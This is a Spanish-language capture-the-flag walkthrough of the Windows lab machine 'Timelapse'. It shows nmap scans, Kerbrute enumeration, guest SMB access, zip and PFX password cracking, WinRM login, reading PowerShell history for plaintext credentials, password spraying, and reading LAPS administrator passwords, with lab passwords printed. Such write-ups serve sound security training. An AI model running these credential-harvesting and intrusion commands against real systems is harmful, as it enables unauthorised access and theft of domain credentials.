


# Timelapse

`Timelapse` es una máquina Windows sencilla que implica acceder a un recurso compartido `SMB` de acceso público que contiene un archivo zip. Este archivo zip requiere una contraseña que se puede descifrar con `John`. Al extraer el archivo zip se obtiene un archivo PFX cifrado con contraseña, que también se puede descifrar con `John`, convirtiendo el archivo PFX a un formato hash legible por `John`.&#x20;

Del archivo PFX se puede extraer un certificado SSL y una clave privada, que se utiliza para iniciar sesión en el sistema a través de `WinRM`. Después de la autenticación, descubrimos un archivo de historial de PowerShell que contiene las credenciales de inicio de sesión para el usuario `svc_deploy`. La enumeración de usuarios muestra que `svc_deploy` es parte de un grupo llamado `LAPS_Readers`. El grupo `LAPS_Readers` tiene la capacidad de administrar contraseñas en `LAPS` y cualquier usuario de este grupo puede leer las contraseñas locales de las máquinas del dominio. Al abusar de esta confianza, recuperamos la contraseña del administrador y obtenemos una sesión de `WinRM`.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Escanearemos los puertos abiertos del equipo para comprobar que servicios se encuentran expuestos e intentar aprovecharnos de distintas vulnerabilidades.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.152 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Una vez realizado el escaneo de los puertos abiertos, procederemos con **Nmap** a ejecutar distintos scripts para encontrar vulnerabilidades e información.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49667,49673,49674,49693 10.10.11.152 -oN targeted
```


<figure><figcaption></figcaption></figure>

Como hemos encontrado en el escaneo de Nmap el nombre del dominio del AD, también lo podemos enumerar a través del siguiente comando, debido que el servicio de LDAP está abierto.

```bash
ldapsearch -x -H ldap://10.10.11.152 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

Procederemos a añadirnos en nuestro archivo **/etc/hosts** el dominio correspondiente&#x20;

```bash
catnp /etc/hosts | grep timelapse.htb
```

<figure><figcaption></figcaption></figure>

## Users Enumeration

### Kerberos User Enumeration - Kerbrute

Procederemos a enumerar usuarios del AD a través de la herramienta de **Kerbrute** ya que hemos comprobado que el puerto de Kerberos (88) se encontraba abierto. En este punto nos encontramos que hemos podido enumerar que existe el usuario "Admninistrator" y "Guest".


```bash
kerbrute userenum --dc 10.10.11.152 -d timelapse.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```


<figure><figcaption></figcaption></figure>

## SMB Enumeration

Como hemos comprobado, el servicio de SMB se encuntra expuesto, procederemos a comprobar cuales son los recursos que se encuentran compartidos en Samba.

```
smbclient -L 10.10.11.152 -N 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Procederemos a intentar comprobar con **netexec** si podemos acceder con el usuario "guest" sin contraseña y comprobar que tipo de permisos tiene en los recursos compartidos. Nos encontramos que tiene permisos de lectura a los recursos "Shares" y "IPC$"

```bash
netexec smb 10.10.11.152 -u guest -p "" --shares
```

<figure><figcaption></figcaption></figure>

Una vez comprobado el acceso, procederemos a conectarnos al recurso compartido "Shares" con el usuario "guest" y procedermos a listar el directorio en busca de archivos, nos lo descargaremos en nuestra Kali para analizarlos.

```bash
smbclient //10.10.11.152/Shares -U timelapse.htb/guest
```

<figure><figcaption></figcaption></figure>

## Cracking ZIP Password Protected File (fcrackzip)

A través de la herramienta de **fcrackzip** procederemos a intentar crackear la contraseña de un .zip que nos hemos descargado del reurso compartido de SMB. Utilizando esta herramienta y pasándole un diccionario de contraseñas finalmente comprobamos que ha crackeado la contraseña.

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

<figure><figcaption></figcaption></figure>

Procederemos a descomprimir el .zip con la contraseña que hemos creackado, nos dejará un archivo .pfx

```bash
unzip winrm_backup.zip
```

<figure><figcaption></figcaption></figure>

## Cracking and reading .PFX File (crackpkcs12)

A través de la herramienta **crackpkcs12** procederemos a intentar crackear la contraseña del archivo .PFX

```bash
crackpkcs12 -d /usr/share/wordlists/rockyou.txt zip_legacy_dev_auth.pfx
```

<figure><figcaption></figcaption></figure>

Procederemos a convertir el .PFX en un .PEM y extraer la clave privada del certificado.

```bash
openssl pkcs12 -in zip_legacy_dev_auth.pfx -out certificate.pem -nodes

openssl rsa -in certificate.pem -out decrypted_certificate.key
```

<figure><figcaption></figcaption></figure>

## Flag user.txt

Una vez obtenido el certificado y la clave privada, procederemos a conectarnos al WInRM con la herramienta **evil-winrm** indicando el certificado y clave privada que hemos desencriptado.

Comprobaremos que ganamos acceso a la máquina de TimeLapse, procedremos a comprobar la flag de "user.txt"

```bash
evil-winrm -i 10.10.11.152 -S -c certificate.pem -k decrypted_certificate.key
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Information Leakage - Reading the user's Powershell history (User Pivoting)

Procederemos a comprobar el historial de Powershell del usuario "legacyy" que es con el que hemos accedido. Comprobaremos que aparece una serie de "Script" en el cual aparece la contraseña en texto plano del usuario "svc\_deploy".

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>type $env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
</strong></code></pre>

<figure><figcaption></figcaption></figure>

Principalmente la contraseña pertenece al usuario "svc\_deploy" pero intentaremos comprobar si la contraseña sirve para otros usuarios del AD. Para ello exportaremos todos los usuarios del AD en un archivo de texto y nos lo descargaremos en nuestro equipo local.

```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty Name > usersAD.txt

download usersAD.txt

catnp usersAD.txt
```

<figure><figcaption></figcaption></figure>

A través de la herramienta "netexec" procederemos a intentar conectarnos al WinRM con la lista de usuarios y la contraseña encontrada. Finalmente comprobamos que las credenciales solamente son válidas para el usuario "svc\_deploy".


```bash
netexec winrm 10.10.11.152 -u usersAD.txt -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```


<figure><figcaption></figcaption></figure>

Procederemos nuevamente a conectarnos al WinRM con el usuario y las credenciales encontradas, comprobamos que ganamos acceso como usuario "svc\_deploy".

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

<figure><figcaption></figcaption></figure>

### Abusing LAPS to get passwords

Procederemos a enumerar las contraseñas de los usuarios Administradores de todos los equipos del AD para aprovecharnos de LAPS para extraer las credenciales. Comprobamos que hemos encontrado una contraseña.


```bash
Get-ADComputer -Filter * -Property ms-MCS-AdmPwd | Select-Object Name, ms-MCS-AdmPwd
```


<figure><figcaption></figcaption></figure>

También podemos hacer uso de la herramienta **ldapsearch** con el siguiente comando para realizar lo mismo que el paso anterior.


```bash
ldapsearch -x -H ldap://10.10.11.152 -D 'svc_deploy' -w 'E3R$Q62^12p7PLlC%KWaxuaV' -b 'dc=timelapse,dc=htb' '(objectClass=computer)' ms-MCS-AdmPwd
```


<figure><figcaption></figcaption></figure>

Procederemos a conectarnos al equipo con el usuario Administrator y las credenciales encontradas. Comprobamos que hemos ganado acceso como usuario  _Administrator._

Para localizar la flag del "root.txt" ejecutaremos el siguiente comando para buscar la flag en todos los "Desktop" de todos los usuarios del equipo, ya que la flag se encuentra en otro usuario.


```bash
evil-winrm -i 10.10.11.152 -u Administrator -p '5n69pMl.b5{15%8sj9i(6A5g' -S

Get-ChildItem -Path "C:\Users" -Recurse -Filter "root.txt" -ErrorAction SilentlyContinue | Where-Object { $_.Directory -like "*\Desktop" }
```


<figure><figcaption></figcaption></figure>
